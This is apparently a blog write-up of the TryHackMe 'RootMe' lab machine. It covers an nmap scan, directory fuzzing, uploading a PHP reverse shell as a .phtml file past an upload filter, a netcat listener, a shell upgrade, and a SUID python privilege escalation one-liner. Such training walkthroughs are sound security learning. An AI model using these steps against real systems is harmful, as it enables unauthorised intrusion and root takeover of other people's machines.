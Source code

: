 ```yaml
---
title: "RootMe - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - RootMe
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## RootMe
![](https://kar0nx.github.io/assets/images/writeup/11d59cb34397e986062eb515f4d32421.png)

## Reconnaissance

IP: 10.10.164.172
### NMAP

```
nmap -T4 -A -p- 10.10.164.172
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-01 12:07 UTC
Nmap scan report for ip-10-10-164-172.eu-west-1.compute.internal (10.10.164.172)
Host is up (0.00044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:43:8F:57:0D:17 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=3/1%OT=22%CT=1%CU=36225%PV=Y%DS=1%DC=D%G=Y%M=02438F%TM
OS:=67C2F8B0%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%
OS:TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW
OS:7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4
OS:B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=
OS:40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%
OS:O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=
OS:Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms ip-10-10-164-172.eu-west-1.compute.internal (10.10.164.172)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.75 seconds

```
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301130926.png)

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.164.172/FUZZ
```

```
http://10.10.164.172/panel/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301131155.png)
## Gaining Access

https://www.revshells.com/
pentest monkey php

save as .phtml

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301131613.png)

```
nc -lvnp 1337
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301132008.png)

TTY Shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301132316.png)

## Privilege Escalation

SUID

```
find / -perm -u=s -type f 2>/dev/null
```

https://gtfobins.github.io/gtfobins/python/

```
./python -c 'import os; os.execl("/bin/bash", "sh", "-p")'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301132919.png)
